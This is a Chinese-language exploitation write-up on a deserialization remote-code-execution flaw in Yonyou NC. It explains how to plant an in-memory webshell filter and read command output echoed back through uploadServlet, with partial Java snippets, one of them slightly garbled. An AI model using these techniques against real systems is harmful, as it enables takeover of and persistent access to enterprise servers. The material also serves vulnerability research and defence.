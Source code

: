 # 用友 NC 反序列化RCE漏洞

## 漏洞描述

用友NC 存在反序列化 RCE漏洞，攻击者可利用控制服务器

## 漏洞影响

```
用友 NC
```

## 漏洞复现

首先从任意文件上传说起

任意文件上传分析代码在`servlet.FileReceiveServlet`。在这里我们可以看到，从请求中读取流，然后转换为map类型并读取上传文件的路径。然后再读取待上传的文件。

![yongyou-5-1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/yongyou-5-1.png)

而网上很多poc，大多都是基于此漏洞，利用反序列化上传一个文件到服务器。

这也就是去年的那个任意文件上传的反序列化漏洞。但是，但是，这个漏洞本质是一个反序列化漏洞。而且某C的classpath中，也存在apache commonscollections库，我们可以利用这个库，直接执行命令或者内存马。岂不是比任意文件上传舒服多了。

**内存马**

老样子，在反序列化中想执行任意代码，一般都依靠xalan这个库。这次也不例外。

植入内存马，关键在于我们怎样找到context，只有找到context，我们才可以添加filter。好在某c中，我们只需要通过下面的代码既可以获取当前context，不需要从tomcat中获取context

```java
 Object obj = 改动Locator.getInstance().lookup("ServletContext");
        Field contextField = obj.getClass().getDeclaredField("context");
        contextField.setAccessible(true);
        obj = contextField.get(obj);
        Field contextField1 = obj.getClass().getDeclaredField("context");
        contextField1.setAccessible(true);
        addFitlertoTomcat(contextField1.get(obj));
```

剩下的就是常规操作，可以看我之前的内存马模型，基本不需要很大的改动即可完美适配。

![yongyou-5-2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/yongyou-5-2.png)

**回显**

我们只需要找到这样一个servlet，即存在反序列化的readObject，又将错误信息写入到response中

不难看出 uploadServlet 就很满足这个需求。

```plain
out = new ObjectOutputStream(output);
            in = new ObjectInputStream(request.getInputStream());
            String dsName = (String)in.readObject();
            }
        } catch (Exception var14) {
            var14.printStackTrace();
            if (out == null) {
                throw new ServletException(var14);
            }

            out.writeObject(var14);
```

如果出错的话，将错误信息通过序列化写入到response中。好处在于，我们不需要麻烦的去找tomcat的response对象。

所以，我们将反序列化的payload，发送给uploadServlet即可。然后我们只需要读取响应，即可拿到服务器命令执行的回显结果。客户端代码可以这样写

```java
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(r));
        Exception e = (Exception) objectInputStream.readObject();
        Object obj = e.getCause();
        Field targetF = obj.getClass().getDeclaredField("target");
        targetF.setAccessible(true);
        obj = targetF.get(obj);
        Field msgF = obj.getClass().getSuperclass().getDeclaredField("detailMessage");
        msgF.setAccessible(true);
        String msg = msgF.get(obj).toString();
        System.out.println(msg);
```

## 参考文章

https://mp.weixin.qq.com/s/IdXYbjNVGVIasuwQH48Q1w